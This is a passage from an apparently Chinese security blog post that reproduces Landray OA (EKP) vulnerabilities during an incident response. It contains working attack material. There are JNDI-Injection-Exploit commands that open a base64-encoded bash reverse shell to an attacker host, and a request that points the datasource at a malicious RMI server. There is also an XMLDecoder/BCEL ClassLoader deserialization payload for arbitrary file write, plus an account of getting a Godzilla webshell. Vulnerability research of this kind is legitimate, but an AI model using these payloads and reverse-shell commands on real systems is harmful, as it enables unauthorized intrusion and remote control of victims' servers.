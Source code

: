   *   *   *   *   *   *   *   *   *   *   * 

    
    
     工具下载:https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0  
    开启rmi/jndi服务使用DNSLOG:java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping DNSLOG" -A IP  
    开启rmi/jndi反弹shell：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,bash反弹shell脚本base64编码}|{base64,-d}|{bash,-i}" -A IP  
    发送带有payload的请求包:method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/dromo1

  
![](https://gitee.com/fuli009/images/raw/master/public/20230715094101.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230715094103.png)

 **三、SysSearchMain.do XMLdecode反序列化(任意文件写入）** **漏洞描述**
蓝凌OA(EKP)存在任意文件写入漏洞，属于典型的xmlDecoder反序列化。漏洞在/sys/search/sys_search_main/sysSearchMain.do下面。跟任意文件读取一样可以通过
custom.jsp 文件未授权写入恶意文件，获取shell。 **漏洞复现**
当时由于事件紧急，需要尽快确定具体漏洞，一直在强调上级部门在等回复。我首当其冲就先用OA工具测一遍，果不其然漏洞还是跟往年一样原始不动的复现成功。可以想到该公司使用的OA系统有多脆弱，还是在公网当中。先使用Liqun工具测试是否存在蓝凌OA漏洞，可以看出已经给出getshell链接和密码。

![](https://gitee.com/fuli009/images/raw/master/public/20230715094104.png)

使用哥斯拉进行连接，我用的版本v4.0.1。拿到的是普通用户权限，我后面没有进行提权。

![](https://gitee.com/fuli009/images/raw/master/public/20230715094105.png)

具体漏洞的请求数据如下，主要问题在com.landray.kmss.sys.search.jar包中，对FdParameters参数过滤不严，将字符串数据传递给ojectXmlDecoder时造成反序列化。  

 **payload**

  *   *   *   *   *   *   *   *   *   * 

    
    
     var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void+class%3d"com.sun.org.apache.bcel.internal.util.ClassLoader">  <void+method%3d"loadClass">    <string>$$BCEL$$$l$8b$……</string>    <void+method%3d"newInstance"></void>  </void></void></java>  
    

‍

![](https://gitee.com/fuli009/images/raw/master/public/20230715094106.png)

发送的shell代码可以使用哥斯拉自动生成，但是需要进行BCEL编码，下面是引用别人写的文章对BCEL
Classloader的介绍和编写的BCEL编码工具。

  *   *   *   *   * 

    
    
    BCEL Classloader介绍:https://blog.csdn.net/xd_2021/article/details/121878806  
    BCEL编码工具:https://github.com/hunzi0/BCELCode

该BCEL编码工具功能是对代码进行BCEL编码和解码，如有需要可以后台联系。运行步骤如下：

![](https://gitee.com/fuli009/images/raw/master/public/20230715094107.png)
